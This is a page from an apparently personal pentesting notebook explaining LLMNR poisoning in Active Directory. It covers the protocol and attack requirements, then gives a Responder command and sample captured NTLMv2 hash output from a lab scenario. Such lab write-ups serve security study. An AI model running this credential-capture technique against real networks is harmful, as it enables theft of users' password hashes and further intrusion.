

repository: RayenManai/MyHackBook · page: Active Directory/attacking-ad/initial-attack-vectors/llmnr-poisoning.html · generator: sphinx

# LLMNR Poisoning

### What is LLMNR?

LLMNR (Link-Local Multicast Name Resolution) is a protocol used in Windows environments to resolve hostnames on a local network when DNS queries fail. It allows systems to perform name resolution without relying on a DNS server by broadcasting queries to nearby machines. While intended as a fallback mechanism for convenience, it introduces significant security risks.

### What can go wrong here?

**attacker pretends to be the server, capturing credentials**

- LLMNR poisoning is an attack technique often used as an initial vector in Active Directory compromises. An attacker connected to the same network listens for LLMNR queries and responds with false information, tricking victims into sending authentication requests to the attacker’s machine. This enables the capture of NTLMv2 hashes, which can then be brute-forced offline or relayed to other services for lateral movement and privilege escalation.

- In normal NTLM authentication, the client talks to the real server and the DC validates. Using a tool like Responder, the client talks to the attacker, so he captures its NTLM authentication before the DC is ever involved.

- The poisoning part is the attacker tricking the victim into sending its NTLM authentication to him by falsely answering its broadcast name resolution request.

### Attack Requirements

The main requirements for LLMNR poisoning are that LLMNR (or its predecessor, NBT-NS) is enabled in the network, that DNS resolution fails for the queried hostname, and that the attacker has local network access to intercept and respond to the broadcast traffic. These conditions make it a common and effective entry point in poorly hardened Windows environments.

### LLMNR Poisoning in AD

#### Step 1: Attacker runs responder

```
sudo responder -I eth0 -dw
```

#### Step 2: An Event Occurs in the Network and Triggers LLMNR

When a LLMNR event occurs in the network and is maliciously responded to, the attacker will obtain sensitive information, including IP adress, domain, username and password hash of the victim.

In our lab scenario we simulated this by looking for `\\10.0.2.15` (attacker IP address) inside the windows machine top bar in files

```
[SMB] NTLMv2-SSP Client   : 10.0.2.16
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:4ebfcbf82597e3ff:A78E7AB8283CE22309010584338A7E84:0101000000000000801F0FF80615DC017567BB97800964B60000000002000800590031004D00570001001E00570049004E002D004E00440047004B005400430041004A004B005700370004003400570049004E002D004E00440047004B005400430041004A004B00570037002E00590031004D0057002E004C004F00430041004C0003001400590031004D0057002E004C004F00430041004C0005001400590031004D0057002E004C004F00430041004C0007000800801F0FF80615DC010600040002000000080030003000000000000000010000000020000035230AAA56834FA0EE49F096EF6EE63AEDB19B9D89DAFA365CC9D8A1C1CCF11D0A0010000000000000000000000000000000000009001C0063006900660073002F00310030002E0030002E0032002E00310035000000000000000000
```
